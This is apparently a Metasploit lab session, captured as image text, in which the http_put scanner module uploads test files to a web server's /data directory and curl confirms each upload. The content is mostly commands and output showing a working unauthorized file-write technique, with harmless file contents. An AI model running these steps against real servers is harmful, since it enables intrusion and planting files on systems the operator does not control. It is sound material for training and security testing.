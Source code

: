 ```
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/http/http_put) > set PATH /data
PATH => /data
msf5 auxiliary(scanner/http/http_put) > run

[+] File uploaded: http://192.227.46.3:80/data/msf_http_put_test.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf5 auxiliary(scanner/http/http_put) > curl http://192.227.46.3:80/data/msf_http_put_test.txt
[*] exec: curl http://192.227.46.3:80/data/msf_http_put_test.txt

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    13  100    13    0     0  13000      0 --:--:-- --:--:-- --:--:-- 13000
msf test file
```

```
msf5 auxiliary(scanner/http/http_put) > set FILEDATA "This does work"
FILEDATA => This does work
msf5 auxiliary(scanner/http/http_put) > set FILENAME this_work.txt
FILENAME => this_work.txt
msf5 auxiliary(scanner/http/http_put) > run

[+] File uploaded: http://192.227.46.3:80/data/this_work.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/http_put) > curl http://192.227.46.3:80/data/this_work.txt
[*] exec: curl http://192.227.46.3:80/data/this_work.txt

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    14  100    14    0     0  14000      0 --:--:-- --:--:-- --:--:-- 14000
This does work
```
